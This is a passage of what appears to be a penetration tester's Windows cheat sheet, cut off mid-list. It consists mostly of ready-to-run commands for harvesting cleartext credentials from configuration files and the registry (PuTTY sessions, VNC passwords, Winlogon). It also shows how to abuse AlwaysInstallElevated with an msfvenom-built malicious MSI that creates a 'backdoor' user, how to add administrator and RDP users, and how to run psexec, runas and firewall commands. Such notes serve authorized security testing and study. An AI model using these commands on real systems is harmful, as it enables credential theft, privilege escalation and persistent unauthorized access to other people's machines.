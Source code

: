     ```
    

### OTHER

- Search for common files with default/cleatext creds
    
    dir /b /s unattend.xml
    
    dir /b /s web.config
    
    dir /b /s sysprep.inf
    
- Grep the registry for keywords (e.g. “passwords”)
    
    reg query HKLM /f password /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
    reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon”
    
    reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
    
    reg query “HKCU\Software\SimonTatham\PuTTY\Sessions”
    
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
    
- AlwaysInstallElevated
    - AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. Check if these 2 registry values are set to “1”:
        - reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        - reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        - If they are, create your own malicious msi:
            - msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
        - Then use msiexec on victim to execute your msi:
            - msiexec /quiet /qn /i C:\evil.msi
        - Metasploit module:
            - exploit/windows/local/always_install_elevated
- Post Exploit / Backdoor Commands
    - **Add Users**
        - net user username password /add
        - net localgroup Administrators username /add
        - net localgroup “Remote Desktop Users” username /add
    - **Psexec**
        
        psexec.exe -accepteula \\10.11.10.167 -u hostname\username -p password cmd /c ipconfig
        
    - **RunAs**
        
        runas /user:hostname\<username> explorer.exe
        
    - **Disable Firewall**
        - netsh firewall show state
        - netsh firewall show config
        - netsh advfirewall firewall show rule all
- RDP
    
    Enable RDP
    